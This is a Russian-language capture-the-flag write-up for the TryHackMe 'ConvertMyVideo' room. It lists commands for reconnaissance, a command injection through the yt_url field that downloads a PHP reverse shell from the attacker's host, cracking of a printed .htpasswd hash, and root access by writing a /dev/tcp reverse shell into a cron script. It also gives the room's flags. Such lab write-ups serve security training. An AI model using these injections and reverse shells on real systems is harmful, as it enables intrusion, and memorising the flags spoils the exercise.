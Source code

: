 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [ConvertMyVideo](https://tryhackme.com/r/room/convertmyvideo) 

Всего 1 заданиe:
## Задание 1
Вы можете конвертировать свои видео — почему бы вам не проверить это?

### Ответьте на вопросы ниже
Как называется секретная папка?
```commandline
nmap -sC -sV -A <IP>
gobuster dir -u <IP> -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
curl -s http://<IP>/
curl http://<IP>/js/main.js
```
```commandline
admin
```
Какой пользователь имеет доступ к секретной папке?
```commandline
yt_url=`wget${IFS}http://<my_own_IP>:4444/php-reverse-shell.phtml
cd /var/www/html/admin/
ll
cat .htpasswd
# itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
john hash
# jessie           (itsmeadmin)
```
```commandline
itsmeadmin
```
Что такое флаг пользователя?
```commandline
cat flag.txt
```
```commandline
flag{0d8486a0c0c42503bb60ac77f4046ed7}
```
+ 50
Что такое корневой флаг?
+ 
```commandline
SHELL=/bin/bash script -q /dev/null
cat /var/www/html/admin/index.php
cat /var/www/html/tmp/clean.sh
echo "bash -i >& /dev/tcp/<my_own_IP>/5555 0>&1" > clean.sh
nc -nvlp 5555
cat /root/root.txt
```
```commandline
flag{d9b368018e912b541a4eb68399c5e94a}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)